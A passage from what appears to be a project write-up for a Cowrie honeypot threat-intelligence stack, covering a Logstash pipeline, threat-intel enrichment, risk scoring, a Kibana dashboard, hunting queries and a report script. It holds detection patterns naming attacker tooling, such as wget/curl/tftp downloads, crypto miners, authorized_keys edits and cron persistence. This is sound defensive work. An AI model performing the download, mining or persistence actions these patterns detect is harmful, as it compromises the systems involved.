      add_field => { "[cowrie][credential]" => "%{[cowrie][username]}:%{[cowrie][password]}" }
    }
  }
  if [event][action] == "cowrie.login.success" {
    mutate { add_field => { "[event][outcome]" => "success" } }
  } else if [event][action] == "cowrie.login.failed" {
    mutate { add_field => { "[event][outcome]" => "failure" } }
  }

  # ---------------------------------------------------------------------------
  # 3. MITRE ATT&CK tagging (behaviour-based, cheap and explainable)
  # ---------------------------------------------------------------------------
  if [event][action] == "cowrie.login.failed" {
    mutate { add_field => { "[threat][technique][id]" => "T1110" "[threat][technique][name]" => "Brute Force" } }
  } else if [event][action] == "cowrie.login.success" {
    mutate { add_field => { "[threat][technique][id]" => "T1078" "[threat][technique][name]" => "Valid Accounts" } }
  } else if [event][action] == "cowrie.command.input" {
    mutate { add_field => { "[threat][technique][id]" => "T1059.004" "[threat][technique][name]" => "Unix Shell" } }
    if [cowrie][input] =~ /(?i)(wget|curl|tftp|ftpget|scp)\s/ {
      mutate { add_field => { "[threat][technique][id]" => "T1105" "[threat][technique][name]" => "Ingress Tool Transfer" } }
    }
    if [cowrie][input] =~ /(?i)(xmrig|minerd|stratum\+tcp|cpuminer)/ {
      mutate { add_field => { "[threat][technique][id]" => "T1496" "[threat][technique][name]" => "Resource Hijacking" } }
    }
    if [cowrie][input] =~ /(?i)authorized_keys/ {
      mutate { add_field => { "[threat][technique][id]" => "T1098.004" "[threat][technique][name]" => "SSH Authorized Keys" } }
    }
    if [cowrie][input] =~ /(?i)(crontab|\/etc\/cron|rc\.local|systemctl\s+enable)/ {
      mutate { add_field => { "[threat][technique][id]" => "T1053.003" "[threat][technique][name]" => "Cron" } }
    }
    if [cowrie][input] =~ /(?i)(uname|\/proc\/cpuinfo|lscpu|whoami|\bid\b|free\s+-m)/ {
      mutate { add_field => { "[threat][technique][id]" => "T1082" "[threat][technique][name]" => "System Information Discovery" } }
    }
  } else if [event][action] in ["cowrie.session.file_download", "cowrie.session.file_upload"] {
    mutate { add_field => { "[threat][technique][id]" => "T1105" "[threat][technique][name]" => "Ingress Tool Transfer" } }
  } else if [event][action] =~ /^cowrie\.direct-tcpip/ {
    mutate { add_field => { "[threat][technique][id]" => "T1090" "[threat][technique][name]" => "Proxy" } }
  }

  # ---------------------------------------------------------------------------
  # 4. GeoIP + ASN  (MaxMind GeoLite2, auto-downloaded & refreshed by Logstash)
  #    -> source.geo.{location,country_name,country_iso_code,city_name,...}
  #    -> source.as.{number,organization.name}
  #    Private / reserved addresses are skipped by the geoip filter itself.
  # ---------------------------------------------------------------------------
  geoip {
    source => "[source][ip]"
    target => "source"
    ecs_compatibility => v8
    tag_on_failure => ["_geoip_city_lookup_failure"]
  }
  geoip {
    source => "[source][ip]"
    target => "source"
    default_database_type => "ASN"
    ecs_compatibility => v8
    tag_on_failure => ["_geoip_asn_lookup_failure"]
  }

  # ---------------------------------------------------------------------------
  # 5. Threat-intelligence enrichment (AbuseIPDB, AlienVault OTX, VirusTotal)
  #    Strategy:  classify -> TTL cache -> per-provider quota gate -> HTTP -> merge
  #    * only PUBLIC, NON-simulated IPs are ever sent to a third party
  #    * results are cached (default 24 h) so each IP costs <= 1 call per day
  #    * a quota gate (see ti_lib.rb) protects the free-tier limits
  #    * every failure path degrades to ti.verdict = "unknown" - events are never lost
  # ---------------------------------------------------------------------------
  ruby {
    init => "require '/usr/share/logstash/ruby/ti_lib.rb'"
    code => "TI.classify(event)"
  }

  if [@metadata][ti_mode] == "demo" {
    ruby {
      init => "require '/usr/share/logstash/ruby/ti_lib.rb'"
      code => "TI.demo(event)"
    }
  } else if [@metadata][ti_mode] == "live" {

    ruby {
      init => "require '/usr/share/logstash/ruby/ti_lib.rb'"
      code => "TI.cache_get(event)"
    }

    if [@metadata][ti_cache_hit] == "false" {

      # ---- AbuseIPDB: abuse confidence score (0-100), reports, usage type, ISP
      ruby { init => "require '/usr/share/logstash/ruby/ti_lib.rb'" code => "TI.budget(event, 'abuse')" }
      if [@metadata][abuse_ok] == "true" {
        http {
          url     => "https://api.abuseipdb.com/api/v2/check?ipAddress=%{[@metadata][ti_ip]}&maxAgeInDays=90"
          verb    => "GET"
          headers => { "Key" => "${ABUSEIPDB_API_KEY:}" "Accept" => "application/json" }
          target_body => "[@metadata][abuse_raw]"
          connect_timeout => 3
          socket_timeout  => 8
          request_timeout => 10
          automatic_retries => 1
        }
      }

      # ---- AlienVault OTX: pulse count, threat tags, malware families
      ruby { init => "require '/usr/share/logstash/ruby/ti_lib.rb'" code => "TI.budget(event, 'otx')" }
      if [@metadata][otx_ok] == "true" {
        http {
          url     => "https://otx.alienvault.com/api/v1/indicators/%{[@metadata][ti_family]}/%{[@metadata][ti_ip]}/general"
          verb    => "GET"
          headers => { "X-OTX-API-KEY" => "${OTX_API_KEY:}" "Accept" => "application/json" }
          target_body => "[@metadata][otx_raw]"
          connect_timeout => 3
          socket_timeout  => 8
          request_timeout => 10
          automatic_retries => 1
        }
      }

      # ---- VirusTotal: engine detections (spent only on IPs AbuseIPDB did not clear)
      ruby { init => "require '/usr/share/logstash/ruby/ti_lib.rb'" code => "TI.budget(event, 'vt')" }
      if [@metadata][vt_ok] == "true" {
        http {
          url     => "https://www.virustotal.com/api/v3/ip_addresses/%{[@metadata][ti_ip]}"
          verb    => "GET"
          headers => { "x-apikey" => "${VT_API_KEY:}" "Accept" => "application/json" }
          target_body => "[@metadata][vt_raw]"
          connect_timeout => 3
          socket_timeout  => 8
          request_timeout => 10
          automatic_retries => 0
        }
      }

      ruby { init => "require '/usr/share/logstash/ruby/ti_lib.rb'" code => "TI.merge(event)" }
    }
  }

  # ---- Malware samples: VirusTotal HASH lookup only (the file itself is never uploaded)
  if [cowrie][shasum] and [event][action] in ["cowrie.session.file_download", "cowrie.session.file_upload"] {
    if [@metadata][simulated] == "true" {
      ruby { init => "require '/usr/share/logstash/ruby/ti_lib.rb'" code => "TI.demo_file(event)" }
    } else {
      ruby { init => "require '/usr/share/logstash/ruby/ti_lib.rb'" code => "TI.file_cache_get(event)" }
      if [@metadata][file_cache_hit] == "false" {
        ruby { init => "require '/usr/share/logstash/ruby/ti_lib.rb'" code => "TI.budget(event, 'vtfile')" }
        if [@metadata][vtfile_ok] == "true" {
          http {
            url     => "https://www.virustotal.com/api/v3/files/%{[cowrie][shasum]}"
            verb    => "GET"
            headers => { "x-apikey" => "${VT_API_KEY:}" "Accept" => "application/json" }
            target_body => "[@metadata][vtfile_raw]"
            connect_timeout => 3
            socket_timeout  => 8
            request_timeout => 10
            automatic_retries => 0
          }
          ruby { init => "require '/usr/share/logstash/ruby/ti_lib.rb'" code => "TI.file_merge(event)" }
        }
      }
    }
  }

  # ---------------------------------------------------------------------------
  # 6. Severity + risk score (formula documented in ti_lib.rb and the report)
  # ---------------------------------------------------------------------------
  ruby {
    init => "require '/usr/share/logstash/ruby/ti_lib.rb'"
    code => "TI.risk(event)"
  }

  # ---------------------------------------------------------------------------
  # 7. Clean up pipeline/transport noise
  # ---------------------------------------------------------------------------
  mutate {
    remove_field => ["cw", "agent", "ecs", "input", "host", "[log][offset]", "@version"]
  }
}

output {
  elasticsearch {
    hosts       => ["http://elasticsearch:9200"]
    user        => "ti_logstash"
    password    => "${LOGSTASH_WRITER_PASSWORD}"
    index       => "honeypot-cowrie-%{+YYYY.MM.dd}"
    document_id => "%{[@metadata][doc_id]}"
    action      => "index"
    manage_template => false        # template + ILM are installed by tools/init_stack.py
    ilm_enabled     => false
  }

  # Set DEBUG_STDOUT=true in .env to print every enriched event to the container log.
  if "${DEBUG_STDOUT:false}" == "true" {
    stdout { codec => rubydebug }
  }
}
------------------------------------------------------------------------------
END OF FILE: logstash/pipeline/logstash.conf
------------------------------------------------------------------------------

Step 3.3 - Scoring. Each Cowrie event type has a base severity; the threat-
intel score is the strongest signal from any provider; the two are blended.

+------------------------------------+-----------+---------------------------+
| Cowrie event                       | Severity  | Meaning                   |
+====================================+===========+===========================+
| session.connect / client.version / | 10        | Scanning, fingerprinting  |
| client.kex                         |           |                           |
+------------------------------------+-----------+---------------------------+
| login.failed                       | 25        | Password guessing         |
+------------------------------------+-----------+---------------------------+
| login.success                      | 60        | Honeypot credentials      |
|                                    |           | accepted                  |
+------------------------------------+-----------+---------------------------+
| command.input                      | 70        | Interactive shell         |
|                                    |           | activity                  |
+------------------------------------+-----------+---------------------------+
| direct-tcpip.request               | 75        | Using the host as a proxy |
+------------------------------------+-----------+---------------------------+
| session.file_download /            | 90        | Malware / tool transfer   |
| file_upload                        |           |                           |
+------------------------------------+-----------+---------------------------+

    ti.score        = max(AbuseIPDB confidence, 10 x VT detections, 10 x OTX pulses)   (each capped at 100)
    event.risk_score = round(0.6 x severity + 0.4 x ti.score)      benign sources are capped at 20
    event.risk_level = critical >= 80 | high >= 60 | medium >= 35 | low
    ti.verdict       = benign (whitelisted / CDN / search-engine) | malicious >= 75 | suspicious >= 25 | clean

Step 3.4 - False-positive reduction. Whitelisted IPs and CDN/search-engine
ranges are marked `benign`, their risk is capped at 20 and they are excluded
from the generated blocklist. Failed lookups degrade to `unknown` and are
cached for 10 minutes; events are never dropped because an API was down.

Step 3.5 - Demo mode. Simulated traffic (tools/simulate_attacks.py) is tagged
`simulated`, never sent to any API, and receives deterministic synthetic
scores (provider `demo-synthetic`) so the dashboard can be demonstrated
without keys. Synthetic IPs are random addresses, malware URLs use the
reserved 198.51.100.0/24 range and `.invalid` domains, and every report prints
a notice when demo data is present.

  | NOTE: Bug found by checking the documentation. Elastic's plugin reference
  | shows the `http` filter has no `tag_on_request_failure` /
  | `tag_on_json_failure` options, yet the first version of the pipeline used
  | both. Logstash refuses to start a pipeline with unknown settings. They
  | were removed, the Ruby code now accepts response bodies as either a parsed
  | Hash or a raw JSON string, and a regression test checks every plugin
  | option in logstash.conf against an allow-list (and fails when the old bug
  | is re-introduced).

==============================================================================
6. Storage, retention and access control
==============================================================================

The index template (`elasticsearch/index-template.json`) maps `source.ip` as
`ip`, `source.geo.location` as `geo_point`, and every analysed string as
`keyword`, so aggregations are cheap and exact. `cowrie.input` is also kept as
full text for searching. Indices are daily (`honeypot-cowrie-YYYY.MM.dd`) with
an ILM policy that deletes them after RETENTION_DAYS (default 30).

+----------------+--------------------------------------+--------------------+
| User           | Role privileges                      | Used by            |
+================+======================================+====================+
| ti_logstash    | create_index, create, index,         | Logstash (write    |
|                | auto_configure on honeypot-*         | only)              |
+----------------+--------------------------------------+--------------------+
| ti_reader      | read, view_index_metadata on         | Report generator   |
|                | honeypot-*                           |                    |
+----------------+--------------------------------------+--------------------+
| ti_elastalert  | read on honeypot-*, all on           | ElastAlert 2       |
|                | elastalert*                          |                    |
+----------------+--------------------------------------+--------------------+
| kibana_system  | built-in                             | Kibana             |
+----------------+--------------------------------------+--------------------+
| elastic        | superuser (password only in .env)    | Humans and the     |
|                |                                      | one-shot init jobs |
+----------------+--------------------------------------+--------------------+

Passwords and Kibana encryption keys are generated at first start (random,
24-40 characters) and never committed. Inside the private Docker network
Elasticsearch speaks plain HTTP; its published port is bound to localhost. For
a multi-host deployment enable TLS (documented as a next step).

==============================================================================
7. Module 4 - Kibana dashboard and visualisation design
==============================================================================

The dashboard Threat Intelligence - SOC Overview is created automatically by
the `kibana-init` job from `tools/kibana_objects.py` (data view `Honeypot -
Cowrie`, 23 visualisations, 3 saved searches). Every panel answers a decision:
block, hunt, harden or escalate.

+------------------+--------+-------------------------+----------------------+
| Panel            | Type   | Fields / filter         | Decision it supports |
+==================+========+=========================+======================+
| Total events     | metric | -                       | Overall volume       |
|                  |        |                         | baseline             |
+------------------+--------+-------------------------+----------------------+
| Unique attacker  | metric | source.ip               | Distinct sources:    |
| IPs              |        |                         | campaign or one      |
|                  |        |                         | noisy host?          |
+------------------+--------+-------------------------+----------------------+
| Attack sessions  | metric | cowrie.session          | Attack attempts      |
|                  |        |                         | (connections)        |
+------------------+--------+-------------------------+----------------------+
| High-risk events | metric | -   [filter:            | Escalation workload  |
| (score >= 70)    |        | event.risk_score >= 70] | (risk >= 70)         |
+------------------+--------+-------------------------+----------------------+
| Malicious IPs    | metric | source.ip   [filter:    | IPs confirmed bad by |
| (TI verdict)     |        | ti.verdict :            | threat intel =       |
|                  |        | "malicious"]            | blocklist candidates |
+------------------+--------+-------------------------+----------------------+
| Malware          | metric | -   [filter:            | Payloads dropped -   |
| downloads        |        | event.action : "cowrie. | incident-response    |
|                  |        | session.file_download"] | priority             |
+------------------+--------+-------------------------+----------------------+
| Attack timeline  | histog | @timestamp,             | Attack timeline /    |
| (events by risk  | ram    | event.risk_level        | velocity by risk     |
| level)           |        |                         | level - spot waves   |
+------------------+--------+-------------------------+----------------------+
| Login attempt    | line   | @timestamp,             | Brute-force bursts:  |
| velocity (brute- |        | event.outcome           | failed vs successful |
| force)           |        | [filter: event.action : | logins               |
|                  |        | "cowrie.login.failed"   |                      |
|                  |        | or event.action :       |                      |
|                  |        | "cowrie.login.success"] |                      |
+------------------+--------+-------------------------+----------------------+
| Top 10 malicious | table  | event.risk_score, ti.ab | Block / escalate     |
| IPs (by max      |        | useipdb.confidence_scor | these IPs first      |
| risk)            |        | e, source.ip,           |                      |
|                  |        | source.geo.country_name |                      |
+------------------+--------+-------------------------+----------------------+
| Top 10 attacking | table  | source.ip, source.as.or | Network-level        |
| ASNs             |        | ganization.name         | blocking, abuse      |
|                  |        |                         | reports              |
+------------------+--------+-------------------------+----------------------+
| Attack origin by | pie    | source.geo.country_name | Geographic context   |
| country          |        |                         | (not attribution)    |
+------------------+--------+-------------------------+----------------------+
| Threat-intel     | pie    | ti.verdict              | Share confirmed by   |
| verdicts         |        |                         | TI; 'unknown' =      |
|                  |        |                         | enrichment gap       |
+------------------+--------+-------------------------+----------------------+
| Targeted ports   | pie    | destination.port        | Which services       |
|                  |        | [filter: event.action : | attackers target     |
|                  |        | "cowrie.session.connect |                      |
|                  |        | "]                      |                      |
+------------------+--------+-------------------------+----------------------+
| Protocols        | pie    | network.protocol        | SSH vs Telnet mix    |
|                  |        | [filter: event.action : |                      |
|                  |        | "cowrie.session.connect |                      |
|                  |        | "]                      |                      |
+------------------+--------+-------------------------+----------------------+
| Top usernames    | table  | cowrie.username         | Credential hygiene:  |
| attempted        |        | [filter:                | usernames            |
|                  |        | cowrie.username : *]    |                      |
+------------------+--------+-------------------------+----------------------+
| Top passwords    | table  | cowrie.password         | Credential hygiene:  |
| attempted        |        | [filter:                | passwords to ban     |
|                  |        | cowrie.password : *]    |                      |
+------------------+--------+-------------------------+----------------------+
| Top credential   | table  | cowrie.credential       | Most common          |
| pairs            |        |                         | user:password pairs  |
| (user:password)  |        |                         |                      |
+------------------+--------+-------------------------+----------------------+
| Top commands     | table  | cowrie.input   [filter: | Attacker tradecraft, |
| executed in the  |        | event.action :          | detection ideas      |
| honeypot shell   |        | "cowrie.command.input"] |                      |
+------------------+--------+-------------------------+----------------------+
| Malware samples  | table  | ti.file.malicious,      | Hashes to hunt in    |
| (SHA-256)        |        | cowrie.shasum,          | EDR; VirusTotal      |
|                  |        | ti.file.threat_label    | detections           |
|                  |        | [filter: cowrie.shasum  |                      |
|                  |        | : *]                    |                      |
+------------------+--------+-------------------------+----------------------+
| MITRE ATT&CK     | table  | threat.technique.id,    | Map activity to      |
| techniques       |        | threat.technique.name   | MITRE ATT&CK         |
| observed         |        |                         |                      |
+------------------+--------+-------------------------+----------------------+
| SSH client       | table  | cowrie.hassh,           | SSH client           |
| fingerprints     |        | cowrie.client_version   | fingerprint that     |
| (HASSH)          |        | [filter: cowrie.hassh : | survives IP changes  |
|                  |        | *]                      |                      |
+------------------+--------+-------------------------+----------------------+
| OTX threat tags  | tagclo | ti.otx.tags             | Campaign / malware-  |
|                  | ud     |                         | family context       |
+------------------+--------+-------------------------+----------------------+
| Attack origin    | markdo | -                       | Setup steps for the  |
| map - setup      | wn     |                         | geographic map       |
+------------------+--------+-------------------------+----------------------+

Attack-origin map (Coordinate Map). Kibana map objects change between
versions, so the map layer is created by hand in under a minute: Maps > Create
map > Add layer > Documents > data view `Honeypot - Cowrie` > geospatial field
`source.geo.location`; colour and size by `event.risk_score`; save as 'Attack
origins' and add it to the dashboard (a Markdown panel on the dashboard
repeats the steps).

KQL filters for high-severity hunting (`kibana/kql_filters.txt`; append `and
not tags : "simulated"` to ignore demo data):

+--------------------+-------------------------------------------------------+
| Name               | KQL query                                             |
+====================+=======================================================+
| critical_risk_even | event.risk_score >= 80                                |
| t                  |                                                       |
+--------------------+-------------------------------------------------------+
| high_severity_even | event.risk_score >= 70                                |
| t                  |                                                       |
+--------------------+-------------------------------------------------------+
| compromised_login  | event.action : "cowrie.login.success" and ti.verdict  |
|                    | : "malicious"                                         |
+--------------------+-------------------------------------------------------+
| post_compromise_co | event.action : "cowrie.command.input" and ti.score >= |
| mmands             | 50                                                    |
+--------------------+-------------------------------------------------------+
| malware_drop       | event.action : ("cowrie.session.file_download" or     |
|                    | "cowrie.session.file_upload") and not ti.verdict :    |
|                    | "benign"                                              |
+--------------------+-------------------------------------------------------+
| known_malicious_pa | ti.file.malicious >= 5                                |
| yload              |                                                       |
+--------------------+-------------------------------------------------------+
| persistence_attemp | threat.technique.id : ("T1098.004" or "T1053.003")    |
| t                  |                                                       |
+--------------------+-------------------------------------------------------+
| cryptominer_activi | threat.technique.id : "T1496"                         |
| ty                 |                                                       |
+--------------------+-------------------------------------------------------+
| tool_download_in_s | event.action : "cowrie.command.input" and             |
| hell               | cowrie.input : (*wget* or *curl* or *tftp*)           |
+--------------------+-------------------------------------------------------+
| tor_exit_source    | ti.abuseipdb.is_tor : true                            |
+--------------------+-------------------------------------------------------+
| proxy_pivot_attemp | event.action : "cowrie.direct-tcpip.request"          |
| t                  |                                                       |
+--------------------+-------------------------------------------------------+
| reported_but_uncla | ti.abuseipdb.total_reports >= 10 and not ti.verdict : |
| ssified            | ("malicious" or "benign")                             |
+--------------------+-------------------------------------------------------+
| real_traffic_only  | not tags : "simulated"                                |
+--------------------+-------------------------------------------------------+

Elasticsearch DSL queries (`kibana/dsl/*.json`, run in Kibana Dev Tools as
`GET honeypot-cowrie-*/_search` followed by the body). Query 2 detects
*credential guessing that worked*: IPs with at least 20 failed logins and at
least one success in 24 hours.

--- kibana/dsl/01_critical_events_24h.json ---
{
  "_comment": "Critical-risk events of the last 24 h, newest first. Run in Kibana Dev Tools: GET honeypot-cowrie-*/_search  <this body>",
  "size": 50,
  "sort": [{"@timestamp": "desc"}],
  "_source": ["@timestamp", "source.ip", "source.geo.country_name", "event.action", "event.risk_score", "cowrie.username", "cowrie.input", "cowrie.url", "ti.verdict"],
  "query": {"bool": {"filter": [
    {"range": {"@timestamp": {"gte": "now-24h"}}},
    {"range": {"event.risk_score": {"gte": 80}}}
  ], "must_not": [{"term": {"tags": "simulated"}}]}}
}

--- kibana/dsl/02_bruteforce_then_success.json ---
{
  "_comment": "Compromise detection: source IPs with >= 20 failed logins AND at least one success in 24 h (credential guessing that worked).",
  "size": 0,
  "query": {"bool": {"filter": [
    {"range": {"@timestamp": {"gte": "now-24h"}}},
    {"terms": {"event.action": ["cowrie.login.failed", "cowrie.login.success"]}}
  ]}},
  "aggs": {"by_ip": {
    "terms": {"field": "source.ip", "size": 100},
    "aggs": {
      "failed":  {"filter": {"term": {"event.action": "cowrie.login.failed"}}},
      "success": {"filter": {"term": {"event.action": "cowrie.login.success"}}},
      "compromised": {"bucket_selector": {
        "buckets_path": {"f": "failed._count", "s": "success._count"},
        "script": "params.f >= 20 && params.s >= 1"}}
    }}}
}

--- kibana/dsl/03_top_malicious_asns.json ---
{
  "_comment": "Top 10 ASNs hosting 'malicious' sources: event volume, distinct IPs, worst threat-intel score.",
  "size": 0,
  "query": {"bool": {"filter": [
    {"range": {"@timestamp": {"gte": "now-24h"}}},
    {"term": {"ti.verdict": "malicious"}}
  ]}},
  "aggs": {"asn": {
    "terms": {"field": "source.as.organization.name", "size": 10, "order": {"_count": "desc"}},
    "aggs": {
      "unique_ips": {"cardinality": {"field": "source.ip"}},
      "worst_score": {"max": {"field": "ti.score"}}
    }}}
}

--- kibana/dsl/04_attack_velocity.json ---
{
  "_comment": "Attack velocity: events per 5 minutes plus the change vs the previous bucket (spikes = scanning waves / botnet campaigns).",
  "size": 0,
  "query": {"range": {"@timestamp": {"gte": "now-6h"}}},
  "aggs": {"per_5m": {
    "date_histogram": {"field": "@timestamp", "fixed_interval": "5m", "min_doc_count": 0},
    "aggs": {
      "unique_ips": {"cardinality": {"field": "source.ip"}},
      "velocity_change": {"derivative": {"buckets_path": "_count"}}
    }}}
}

--- kibana/dsl/05_rare_commands.json ---
{
  "_comment": "Threat hunting: shell commands seen at most twice in 7 days (novel tooling, new campaigns).",
  "size": 0,
  "query": {"bool": {"filter": [
    {"range": {"@timestamp": {"gte": "now-7d"}}},
    {"term": {"event.action": "cowrie.command.input"}}
  ]}},
  "aggs": {"rare": {"rare_terms": {"field": "cowrie.input", "max_doc_count": 2}}}
}

--- kibana/dsl/06_malicious_ips_ioc_feed.json ---
{
  "_comment": "IOC feed: distinct source IPs ranked by worst risk, excluding benign scanners (false-positive reduction).",
  "size": 0,
  "query": {"bool": {
    "filter": [{"range": {"@timestamp": {"gte": "now-24h"}}}, {"range": {"event.risk_score": {"gte": 60}}}],
    "must_not": [{"term": {"ti.verdict": "benign"}}, {"term": {"tags": "simulated"}}]}},
  "aggs": {"ips": {
    "terms": {"field": "source.ip", "size": 100, "order": {"max_risk": "desc"}},
    "aggs": {
      "max_risk": {"max": {"field": "event.risk_score"}},
      "country": {"terms": {"field": "source.geo.country_name", "size": 1}},
      "first_seen": {"min": {"field": "@timestamp"}},
      "last_seen": {"max": {"field": "@timestamp"}}
    }}}
}

==============================================================================
8. Module 5 - Automated threat-intelligence reporting
==============================================================================

`tools/generate_report.py` is a modular script with four layers: query (builds
one aggregation request plus one comparison request against the previous
window), model (turns the response into a plain report dictionary, executive-
summary sentences and recommended actions), renderers (Markdown, self-
contained HTML, PDF) and automation (IOC export and a built-in daily
scheduler).

  * Window: last 24 hours by default (`--hours`), compared with the previous
    24 hours for trend percentages.
  * Threat level: CRITICAL if any critical event, HIGH if any high-risk event,
    MEDIUM if any login succeeded, else LOW.
  * Top IOCs: IPs (with country, ASN, verdict, AbuseIPDB score, tags), malware
    SHA-256 hashes with VirusTotal detections and family, payload URLs, HASSH
    SSH-client fingerprints, credentials, commands, ATT&CK techniques.
  * Exports: `iocs_*.csv` (type, indicator, events, risk, verdict, context)
    and `blocklist_ips_*.txt` (risky IPs only; benign scanners and CDNs are
    excluded on purpose).
  * Scheduling: the `reporter` container runs `--daily-at 07:00` in REPORT_TZ;
    `report.bat` runs it on demand.
  * Safety: all attacker-controlled text is escaped in HTML and PDF output;
    the read-only `ti_reader` user is used.

------------------------------------------------------------------------------
FILE: tools/generate_report.py   (715 lines)
------------------------------------------------------------------------------
#!/usr/bin/env python3
"""
generate_report.py - automated Threat Intelligence report from Elasticsearch.

Queries the last N hours (default 24) of enriched honeypot events, summarises the top
Indicators of Compromise (IPs, malware hashes, URLs, credentials, commands, ATT&CK
techniques) and writes an executive summary as Markdown, HTML and PDF plus machine-readable
IOC exports (CSV + plain IP blocklist).

Layers (each testable on its own):
    build_*           Elasticsearch DSL  (query layer)
    ElasticsearchSource.fetch()  ->  report dict  (parse layer, pure function `parse_report`)
    render_markdown / render_html / render_pdf   (presentation layer)
    export_iocs       CSV + blocklist
    run_once / run_daily_loop    (automation layer)

Credentials come from the environment (ES_URL, ES_USER, ES_PASSWORD [, ES_CA_CERT,
ES_VERIFY_CERTS]) - never from the command line, so they do not end up in shell history.

Examples
    python generate_report.py --hours 24 --out ./reports
    python generate_report.py --hours 168 --formats md,html
    python generate_report.py --daily-at 07:00          # long-running scheduler (used by the `reporter` container)
    python generate_report.py --print-query             # show the Elasticsearch DSL and exit
"""
from __future__ import annotations

import argparse
import csv
import html
import json
import os
import sys
import time
import traceback
from datetime import datetime, timedelta, timezone
from xml.sax.saxutils import escape as xml_escape

INDEX = "honeypot-cowrie-*"
HIGH_RISK = 70
VERDICT_ORDER = ["malicious", "suspicious", "unknown", "clean", "benign", "not_applicable"]

# =============================================================================
# 1. QUERY LAYER
# =============================================================================
def iso(dt: datetime) -> str:
    return dt.astimezone(timezone.utc).strftime("%Y-%m-%dT%H:%M:%S.000Z")

def build_query(start: datetime, end: datetime, exclude_simulated: bool = False) -> dict:
    q: dict = {"bool": {"filter": [{"range": {"@timestamp": {"gte": iso(start), "lt": iso(end)}}}]}}
    if exclude_simulated:
        q["bool"]["must_not"] = [{"term": {"tags": "simulated"}}]
    return q

def _ip_sub_aggs() -> dict:
    return {
        "sessions": {"cardinality": {"field": "cowrie.session"}},
        "max_risk": {"max": {"field": "event.risk_score"}},
        "ti_score": {"max": {"field": "ti.score"}},
        "country": {"terms": {"field": "source.geo.country_name", "size": 1}},
        "asn_org": {"terms": {"field": "source.as.organization.name", "size": 1}},
        "verdict": {"terms": {"field": "ti.verdict", "size": 1}},
        "latest": {"top_hits": {
            "size": 1, "sort": [{"@timestamp": "desc"}],
            "_source": {"includes": ["ti.abuseipdb.confidence_score", "ti.otx.pulse_count", "ti.otx.tags",
                                     "ti.virustotal.malicious", "source.as.number"]}}},
    }

def build_aggs(start: datetime, end: datetime, interval: str = "1h") -> dict:
    ms = lambda d: int(d.timestamp() * 1000)  # noqa: E731
    return {
        "actions": {"terms": {"field": "event.action", "size": 30}},
        "unique_ips": {"cardinality": {"field": "source.ip"}},
        "sessions": {"cardinality": {"field": "cowrie.session"}},
        "timeline": {"date_histogram": {"field": "@timestamp", "fixed_interval": interval, "min_doc_count": 0,
                                        "extended_bounds": {"min": ms(start), "max": ms(end)}}},
        "risk_levels": {"terms": {"field": "event.risk_level", "size": 5}},
        "top_ips_risk": {"terms": {"field": "source.ip", "size": 15, "order": {"max_risk": "desc"}},
                         "aggs": _ip_sub_aggs()},
        "top_ips_volume": {"terms": {"field": "source.ip", "size": 10}, "aggs": _ip_sub_aggs()},
        "countries": {"terms": {"field": "source.geo.country_name", "size": 10},
                      "aggs": {"ips": {"cardinality": {"field": "source.ip"}}}},
        "asns": {"terms": {"field": "source.as.organization.name", "size": 10},
                 "aggs": {"ips": {"cardinality": {"field": "source.ip"}},
                          "max_risk": {"max": {"field": "event.risk_score"}}}},
        "ports": {"filter": {"term": {"event.action": "cowrie.session.connect"}},
                  "aggs": {"t": {"terms": {"field": "destination.port", "size": 10}}}},
        "protocols": {"filter": {"term": {"event.action": "cowrie.session.connect"}},
                      "aggs": {"t": {"terms": {"field": "network.protocol", "size": 5}}}},
        "usernames": {"terms": {"field": "cowrie.username", "size": 10}},
        "passwords": {"terms": {"field": "cowrie.password", "size": 10}},
        "credentials": {"terms": {"field": "cowrie.credential", "size": 10}},
        "commands": {"terms": {"field": "cowrie.input", "size": 15}},
        "techniques": {"terms": {"field": "threat.technique.id", "size": 12},
                       "aggs": {"name": {"terms": {"field": "threat.technique.name", "size": 1}}}},
        "malware": {"terms": {"field": "cowrie.shasum", "size": 10},
                    "aggs": {"urls": {"terms": {"field": "cowrie.url", "size": 3}},
                             "vt": {"max": {"field": "ti.file.malicious"}},
                             "family": {"terms": {"field": "ti.file.threat_label", "size": 1}},
                             "ips": {"cardinality": {"field": "source.ip"}}}},
        "urls": {"terms": {"field": "cowrie.url", "size": 10}},
        "hassh": {"terms": {"field": "cowrie.hassh", "size": 8},
                  "aggs": {"client": {"terms": {"field": "cowrie.client_version", "size": 1}},
                           "ips": {"cardinality": {"field": "source.ip"}}}},
        "verdicts": {"terms": {"field": "ti.verdict", "size": 8},
                     "aggs": {"ips": {"cardinality": {"field": "source.ip"}}}},
        "otx_tags": {"terms": {"field": "ti.otx.tags", "size": 12}},
        "malicious_ips": {"filter": {"term": {"ti.verdict": "malicious"}},
                          "aggs": {"ips": {"cardinality": {"field": "source.ip"}}}},
        "high_risk": {"filter": {"range": {"event.risk_score": {"gte": HIGH_RISK}}},
                      "aggs": {"ips": {"cardinality": {"field": "source.ip"}}}},
        "simulated": {"filter": {"term": {"tags": "simulated"}}},
    }

def build_prev_aggs() -> dict:
    return {
        "unique_ips": {"cardinality": {"field": "source.ip"}},
        "high_risk": {"filter": {"range": {"event.risk_score": {"gte": HIGH_RISK}}}},
        "malicious_ips": {"filter": {"term": {"ti.verdict": "malicious"}},
                          "aggs": {"ips": {"cardinality": {"field": "source.ip"}}}},
    }

# =============================================================================
# 2. PARSE LAYER
# =============================================================================
def _buckets(agg):
    return (agg or {}).get("buckets", [])

def _val(node, name):
    v = (node.get(name) or {}).get("value")
    return 0 if v is None else v

def _top(node, name):
    b = _buckets(node.get(name))
    return b[0]["key"] if b else None

def _kv(agg, size=None):
    out = [{"key": b["key"], "count": b["doc_count"]} for b in _buckets(agg)]
    return out[:size] if size else out

def _total(resp) -> int:
    t = resp.get("hits", {}).get("total", 0)
    return t.get("value", 0) if isinstance(t, dict) else int(t)

def _ip_row(b: dict) -> dict:
    hits = ((b.get("latest") or {}).get("hits") or {}).get("hits") or []
    src = hits[0].get("_source", {}) if hits else {}
    ti = src.get("ti", {}) or {}
    return {
        "ip": b["key"], "events": b["doc_count"], "sessions": int(_val(b, "sessions")),
        "max_risk": int(_val(b, "max_risk")), "ti_score": int(_val(b, "ti_score")),
        "country": _top(b, "country") or "Unknown", "asn_org": _top(b, "asn_org") or "Unknown",
        "asn": (src.get("source", {}).get("as", {}) or {}).get("number"),
        "verdict": _top(b, "verdict") or "unknown",
        "abuse_score": (ti.get("abuseipdb") or {}).get("confidence_score"),
        "otx_pulses": (ti.get("otx") or {}).get("pulse_count"),
        "vt_malicious": (ti.get("virustotal") or {}).get("malicious"),
        "tags": ((ti.get("otx") or {}).get("tags") or [])[:4],
    }

